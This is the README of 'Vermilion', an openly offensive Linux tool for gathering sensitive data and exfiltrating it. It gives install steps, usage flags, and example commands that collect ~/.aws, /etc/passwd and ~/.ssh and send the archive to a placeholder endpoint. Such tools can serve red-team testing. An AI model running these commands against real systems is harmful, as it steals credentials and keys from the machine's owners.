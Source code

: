 # Vermilion Docs


## Installation  

New version of the tool are released via Github.  
You can retrieve the release you want from [*this*](https://github.com/R3DRUN3/vermilion/releases/) page.  
Example via bash (wget):  
```console
wget https://github.com/R3DRUN3/vermilion/releases/download/v0.8.0/vermilion_0.8.0_linux_amd64.tar.gz
tar -xzf vermilion_0.8.0_linux_amd64.tar.gz
chmod +x vermilion
```  

## Usage
In order to see the tool helper run:  
```console
vermilion -h
```  

example output:  
```console
Vermilion - Linux sensitive info gathering and exfiltration tool

Usage:
  vermilion [flags]

Flags:
  -e, --endpoint string   Exfiltration endpoint URL
  -h, --help              help for vermilion
  -n, --noexf             Skip exfiltration and save locally
  -p, --paths string      Comma-separated list of paths to gather sensitive data from
```  

To run the tool with no exfiltration run:  

```console
vermilion --noexf
```  

The previous command produce a local `exdata` folder with a compressed (.zip) archive inside.  
The archive contains all exfiltrated data.  

If you want to only gather files from specific paths, specify the `-p` argument, for example:  
```console
vermilion -p ~/.aws,/etc/passwd,~/.ssh
```  



If you want to specify an endpoint for exfiltration run:  
```console
vermilion -e https://<your-web-endpoint>
```  





## Debug  

You can use [*vscode*](https://code.visualstudio.com/) for debugging.  
this repo already contains the `.vscode/launch.json` file:  

```json
{
    "version": "0.2.0",
    "configurations": [
        {
            "name": "Debug vermilion with VsCode",
            "type": "go",
            "request": "launch",
            "mode": "debug",
            "program": "${workspaceFolder}/main.go",
            "args": ["--noexf"],
            "env": {},
            "showLog": true,
            "cwd": "${workspaceFolder}"
        }
    ]
}
```  

Just modify this file to accomodate your configuration and launch the debug via vscode.  

## Test Exfiltration  

You can test data exfiltration locally by following [*these instructions*](../tests/exfiltration/README.md).  
  


